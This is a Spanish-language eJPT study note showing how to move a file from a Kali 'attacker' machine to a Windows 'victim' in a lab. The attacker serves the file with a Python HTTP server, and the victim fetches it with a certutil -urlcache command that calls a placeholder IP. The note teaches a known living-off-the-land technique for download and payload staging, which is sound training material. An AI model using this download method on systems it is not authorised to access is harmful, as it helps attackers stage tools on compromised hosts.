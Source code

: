 
---
- TAG: #Transferencia #Archivos #Windows #Redes #Certutil
----
# Transferir Archivos con Certutil en Windows

En este apartado, vamos a ver otras opciones de compartir archivos por la red, pero cuando la máquina que reciba sea una máquina **Windows**, porque eso puede cambiar. Vamos a estar viendo una herramienta que se llama **certutil** para poder recibir archivos cuando no tengamos ni **curl** ni **wget** instalados. Esto es algo que ocurre muy frecuentemente en el examen del eJPT.

Vamos a explicarlo de manera más práctica a continuación.

Primero, debemos ir a nuestro virtualizador de máquinas, puede ser **WMware** o **Virtual Box**.

Vamos a tener primero nuestra máquina Windows, donde va a ser la que reciba el archivo que vamos a compartir desde nuestra máquina **Kali Linux** a **Windows**.

Arrancamos ambas máquinas. Recuerden que para este ejercicio debemos tener activada la opción de **adaptador puente** para Virtual Box y la opción _Bridge_ para WMware.

# Máquina Kali Linux

Desde nuestra máquina Linux, compartiremos un archivo mp4 a la máquina Windows utilizando la herramienta **certutil**, ya que es una herramienta que viene instalada por defecto en Windows y nos permite recibir archivos desde otra máquina.

Podemos crear un simple ejemplo de la siguiente manera, utilizando la herramienta `touch`:


```bash
touch example.mp4
```

Para este punto, tenemos que tener en claro nuestra dirección IP de la máquina atacante.

Así que levantamos nuestro **servidor http por el puerto 80** como lo hemos visto en la clase anterior en nuestra máquina Kali Linux:

```bash
python -m http.server 80
```

# Máquina Windows

Abrimos nuestra máquina víctima, donde trataremos de transferirnos los archivos que se encuentren dentro del directorio actual.

Una vez dentro, en el inicio de Windows, presionamos las teclas `Shift + Click Derecho` y abrimos una ventana de comandos.

Dentro del **cmd** ponemos `certutil` y veremos que si la tenemos instalada. Si, por ejemplo, en el examen no les dejan utilizar **curl** y **wget**, esta sería la mejor opción:

```bash
certutil -split -urlcache -f http://1.2.3.4/example.mp4 example.mp4
```

Ahora, ejecutamos el comando y veremos que efectivamente se transferirán los datos a nuestro inicio en la máquina Windows.

Y si revisamos nuestra máquina Kali Linux, veremos que tuvo conexión exitosa `200`.

---

Esto es muy importante aprender ya que en el examen suele haber tanto máquinas Linux como Windows. Si estamos al frente de una máquina Linux, podemos usar tranquilamente el método `curl`, o si nos presentamos hacia una máquina **Windows** con el método `certutil`, en caso de que queramos transferir archivos.